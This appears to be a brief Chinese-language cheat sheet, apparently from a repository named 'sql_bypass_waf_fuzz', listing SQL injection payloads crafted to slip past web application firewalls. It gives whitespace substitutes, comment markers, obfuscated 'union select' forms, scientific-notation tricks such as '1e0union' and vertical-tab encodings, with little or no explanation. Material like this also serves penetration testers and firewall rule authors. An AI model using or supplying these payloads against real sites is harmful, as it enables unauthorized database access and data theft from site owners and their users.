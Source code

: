 # sql_bypass_waf_fuzz

---

教程：

```
https://www.jianshu.com/p/dd7ba834170e?from=singlemessage
```



技巧

字母大小写转换


空格：

```
%0a
/**/
+
//
```

---

注释符

```
--
#
-- +
/**/
```

绕过union select

```
union/*!12345select*/user()
union/**/select user()
union(select user())
```

绕过空格union和空格from

```
科学计数法：
id=1.1union select 1,2,3.1from user;
id=1e0union select 1,2,3e0from user;
id=1e1union select 1,2,3e1from user;
%0b，%0c：
id=1%0bunion select 1,2,3  =》id=1^Kunion select 1,2,3
id=1%0cunion select 1,2,3  =》id=1^Lunion select 1,2,3
```

select xx绕过

```
select@user()
select~user()
select!user()
select%0buser() => select^Kuser()
select%0cuser() => select^Luser()
```

